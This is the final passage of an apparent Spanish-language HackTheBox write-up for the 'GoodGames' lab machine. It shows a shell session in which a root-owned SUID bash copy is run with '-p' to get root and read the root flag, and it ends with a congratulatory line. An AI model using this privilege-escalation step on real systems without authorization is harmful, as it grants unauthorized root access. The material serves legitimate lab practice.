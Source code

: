 ```bash

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 25 10:10:24 2022 from 172.19.0.2
augustus@GoodGames:~$ ls
bash  user.txt
augustus@GoodGames:~$ ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Nov 25 10:35 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-xr-x 1 root     root     1234376 Nov 25 10:35 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 augustus augustus      33 Nov 25 08:31 user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
0e1e68c764891001a***************
```

Hemos completado la máquina **GoodGames** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/GoodGames/pwned.png">
